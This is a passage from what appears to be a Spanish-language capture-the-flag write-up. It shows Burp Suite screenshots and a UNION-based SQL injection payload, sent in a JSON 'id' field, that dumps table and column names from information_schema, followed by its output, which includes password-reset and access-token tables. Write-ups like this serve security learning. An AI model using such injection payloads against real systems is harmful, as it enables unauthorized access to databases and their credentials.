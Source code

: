 <img src="/secciones/posts/imagenes/altered/burp5.png" alt="Texto alternativo" width="500">

puedo reemplazar 3 con cosas que quiero consultar. Comenzaré obteniendo una lista de las bases de datos:

<img src="/secciones/posts/imagenes/altered/burp6.png" alt="Texto alternativo" width="500">

sólo uhces personalizado. Enumeraré las tablas y columnas con:

    {"id":"0 union select 1,2,group_concat(concat('\n', table_name, ':', column_name)) from information_schema.columns where table_schema = 'uhc';-- -", "secret":true}

devuelve:

    failed_jobs:id,
    failed_jobs:uuid,
    failed_jobs:connection,
    failed_jobs:queue,
    failed_jobs:payload,
    failed_jobs:exception,
    failed_jobs:failed_at,
    migrations:id,
    migrations:migration,
    migrations:batch,
    password_resets:email,
    password_resets:token,
    password_resets:created_at,
    personal_access_tokens:id,
    personal_access_tokens:tokenable_type,
    personal_access_tokens:tokenable_id,